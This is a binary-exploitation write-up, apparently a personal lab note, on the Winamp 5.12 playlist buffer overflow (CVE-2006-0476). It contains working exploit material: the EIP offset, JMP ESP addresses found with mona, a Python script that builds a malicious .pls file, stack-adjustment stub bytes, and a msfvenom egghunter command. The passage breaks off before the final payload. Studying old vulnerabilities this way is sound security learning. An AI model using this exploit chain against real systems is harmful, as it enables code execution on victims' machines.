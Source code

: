 # Winamp 5.12 Playlist Buffer Overflow
References: 
- https://www.exploit-db.com/exploits/1458
- https://packetstormsecurity.com/files/152706/Winamp-5.12-Playlist-.pls-Buffer-Overflow.html
- https://www.cvedetails.com/cve/CVE-2006-0476/ 
- https://resources.infosecinstitute.com/topic/buffer-overflow-vulnserver/#gref
- https://armoredcode.com/blog/a-closer-look-to-msf-egghunter/
  
*Buffer overflow in Nullsoft Winamp 5.12 allows remote attackers to execute arbitrary code via a playlist (pls) file with a long file name (File1 field).*

## Exploitation

### 1. Control EIP

PLS playlist structure as is follows:
```
[playlist]
File1=\Program Files\Winamp\demo.mp3 
Title1=DJ Mike Llama - Llama Whippin' Intro
Length1=5
NumberOfEntries=1
Version=2

```
The filename has to be long enough to overwrite the address of EIP. By sending increasingly longer inputs in as the filename, the length needed to control EIP is 1022, with the next 4 bytes on top of that being executed as the EIP address. 

![UI Screenshot](_HaX0r/00b%20-%20Staging/___Writeups/Binary_Exploitation/BOF_Winamp512/img/01.png)  

### 2. Find JMP ESP instruction
On the crash, ESP points to buffer space directly after EIP. Find a JMP ESP instruction:
```
0BADF00D   [+] Command used:
0BADF00D   !mona jmp -r esp

           ---------- Mona command started on 2020-12-22 16:29:07 (v2.0, rev 613) ----------
0BADF00D   [+] Processing arguments and criteria
0BADF00D       - Pointer access level : X
0BADF00D   [+] Generating module info table, hang on...
0BADF00D       - Processing modules
0BADF00D       - Done. Let's rock 'n roll.
0BADF00D   [+] Querying 8 modules
0BADF00D       - Querying module jnetlib.w5s
0BADF00D       - Querying module in_wm.dll
0BADF00D       - Querying module in_nsv.dll
0BADF00D       - Querying module winamp.exe
0BADF00D       - Querying module gen_ff.dll
0BADF00D       - Querying module gen_ml.dll
0BADF00D       - Querying module aacPlusDecoder.w5s
0BADF00D       - Querying module in_mp3.dll
0BADF00D       - Search complete, processing results
0BADF00D   [+] Preparing output file 'jmp.txt'
0BADF00D       - (Re)setting logfile jmp.txt
0BADF00D   [+] Writing results to jmp.txt
0BADF00D       - Number of pointers of type 'jmp esp' : 2
0BADF00D       - Number of pointers of type 'call esp' : 2
0BADF00D       - Number of pointers of type 'push esp # ret ' : 20
0BADF00D       - Number of pointers of type 'push esp # ret 0x04' : 1
0BADF00D   [+] Results :
1A113749     0x1a113749 : jmp esp | ascii {PAGE_EXECUTE_READ} [gen_ff.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ff.dll)
1A1E8C15     0x1a1e8c15 : jmp esp |  {PAGE_EXECUTE_READ} [gen_ff.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ff.dll)
1073614F     0x1073614f : call esp | ascii {PAGE_EXECUTE_READ} [gen_ml.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ml.dll)
0202D961     0x0202d961 : call esp |  {PAGE_EXECUTE_READ} [in_mp3.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\in_mp3.dll)
66601B1D     0x66601b1d : push esp # ret  | asciiprint,ascii {PAGE_EXECUTE_READ} [in_wm.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\in_wm.dll)
6660480C     0x6660480c : push esp # ret  | ascii {PAGE_EXECUTE_READ} [in_wm.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\in_wm.dll)
66604E65     0x66604e65 : push esp # ret  | asciiprint,ascii {PAGE_EXECUTE_READ} [in_wm.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\in_wm.dll)
6660505E     0x6660505e : push esp # ret  | asciiprint,ascii {PAGE_EXECUTE_READ} [in_wm.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\in_wm.dll)
666068A3     0x666068a3 : push esp # ret  |  {PAGE_EXECUTE_READ} [in_wm.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\in_wm.dll)
6660699A     0x6660699a : push esp # ret  |  {PAGE_EXECUTE_READ} [in_wm.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\in_wm.dll)
6660E2D1     0x6660e2d1 : push esp # ret  |  {PAGE_EXECUTE_READ} [in_wm.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\in_wm.dll)
1501BAF6     0x1501baf6 : push esp # ret  |  {PAGE_EXECUTE_READ} [in_nsv.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\in_nsv.dll)
1A10539F     0x1a10539f : push esp # ret  |  {PAGE_EXECUTE_READ} [gen_ff.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ff.dll)
1A17B88F     0x1a17b88f : push esp # ret  |  {PAGE_EXECUTE_READ} [gen_ff.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ff.dll)
1A18C3D2     0x1a18c3d2 : push esp # ret  |  {PAGE_EXECUTE_READ} [gen_ff.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ff.dll)
1A1CE776     0x1a1ce776 : push esp # ret  |  {PAGE_EXECUTE_READ} [gen_ff.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ff.dll)
1A1F3067     0x1a1f3067 : push esp # ret  | asciiprint,ascii {PAGE_EXECUTE_READ} [gen_ff.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ff.dll)
1072D056     0x1072d056 : push esp # ret  |  {PAGE_EXECUTE_READ} [gen_ml.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ml.dll)
1072D0A4     0x1072d0a4 : push esp # ret  |  {PAGE_EXECUTE_READ} [gen_ml.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ml.dll)
1072D0B7     0x1072d0b7 : push esp # ret  |  {PAGE_EXECUTE_READ} [gen_ml.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ml.dll)
0BADF00D   ... Please wait while I'm processing all remaining results and writing everything to file...
0BADF00D   [+] Done. Only the first 20 pointers are shown here. For more pointers, open jmp.txt...
0BADF00D       Found a total of 25 pointers
0BADF00D
0BADF00D   [+] This mona.py action took 0:07:22.697000
```
Of these, I can use the instruction at address: `0x1a1e8c15`.  
Exploit is now:
`[PADDING][JMP ESP][INTERRUPT]`
The interrupts are there to stop the program before it crashes again. Python exploit currently looks like:
```python
#!/usr/bin/env python

from struct import pack

plsPart1 = b'[playlist]\r\nFile1=\\\\'
plsFile1 = b'A' * 1022 + pack('<I', 0x1a1e8c15) + b'\xCC' * 4
plsPart2 = b'\r\nTitle1=LLamma Whippin\r\nLength1=5\r\nNumberOfEntries=1\r\nVersion=2\r\n'

with open('exp.pls', 'wb') as plsFile:
	plsFile.write(plsPart1 + plsFile1 + plsPart2)

```

![UI Screenshot](_HaX0r/00b%20-%20Staging/___Writeups/Binary_Exploitation/BOF_Winamp512/img/02.png)  

When running the resulting playlist file, the interrupts get hit, so we are now jumping to ESP and executing there, but this has only a small amount of space, only 11 bytes to the next null byte, so any useful shellcode payload is not going to fit. So from here another jump needs to happen back into the original filename buffer. This can be done first by decreasing the ESP pointer back onto the buffer and then jumping again.
```bash
┌──(kali㉿kali)-[/usr/share/metasploit-framework/tools/exploit]
└─$ ./nasm_shell.rb 
nasm > sub esp, 58
00000000  83EC3A            sub esp,byte +0x3a
nasm > jmp esp
00000000  FFE4              jmp esp
```
With the space I have, I can subtract 58 from ESP twice and then jump there. Modifications to exploit:
```python
subesp = b'\x83\xEC\x3A'
jmpesp = b'\xFF\xE4'

plsPart1 = b'[playlist]\r\nFile1=\\\\'
plsFile1 = b'A' * (906+4) + b'\xCC' * (116-4) + pack('<I', 0x1a1e8c15) + (subesp * 2) + jmpesp
plsPart2 = b'\r\nTitle1=LLamma Whippin\r\nLength1=5\r\nNumberOfEntries=1\r\nVersion=2\r\n'
```
I put some interrupts where the execution should jump to. Another interrupt back in the file buffer:

![UI Screenshot](_HaX0r/00b%20-%20Staging/___Writeups/Binary_Exploitation/BOF_Winamp512/img/03.png)  

Still not enough stack space for a payload, so from here use egghunter to jump again to a bigger area. Firstly generate some egghunter shellcode, needs to be passed to msfvenom to encode out badchars.
```bash
┌──(kali㉿kali)-[~]
└─$ msf-egghunter --arch x86 --platform windows -e JACK -f raw | msfvenom -p - --arch x86 --platform windows -e x86/alpha_mixed -f python --var-name egg > egghunt_encoded.py
Attempting to read payload from STDIN...

Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 126 (iteration=0)
x86/alpha_mixed chosen with final size 126
Payload size: 126 bytes
Final size of python file: 625 bytes
```


